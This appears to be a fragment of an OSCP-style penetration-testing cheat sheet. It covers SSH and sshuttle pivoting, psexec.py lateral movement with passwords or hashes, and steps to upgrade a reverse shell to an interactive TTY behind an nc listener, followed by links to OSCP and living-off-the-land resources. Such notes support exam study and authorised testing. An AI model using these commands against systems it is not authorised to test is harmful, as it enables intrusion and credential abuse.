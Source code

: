 Proxies:
`ssh -D 1337 user@172.16.0.5 -fN`

```
sshuttle -r USERS@10.11.1.251 10.1.1.0/24
sshuttle -r USER@MACHINE_IP 0.0.0.0/0
```

```
psexec.py <domain>/<user>:<password1>@<IP>
psexec.py -hashes
```

# Interactive shell

```bash
# In reverse shell
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>

# For zsh
# Use rlwrap for setting the listener
$ rlwrap nc -lvnp 

# Use python to get a bash
ctrl + z
# Type in one line
$ stty size;stty raw -echo;fg

# Then
$ stty rows ROWS cols COLS
$ export TERM=xterm-256color
$ exec /bin/bash
```

# Useful Ressources

https://crackstation.net/

https://github.com/xsudoxx/OSCP

https://github.com/0xsyr0/OSCP

https://github.com/brianlam38/OSCP-2022/blob/main/cheatsheet-active-directory.md

https://lolbas-project.github.io/

https://wadcoms.github.io/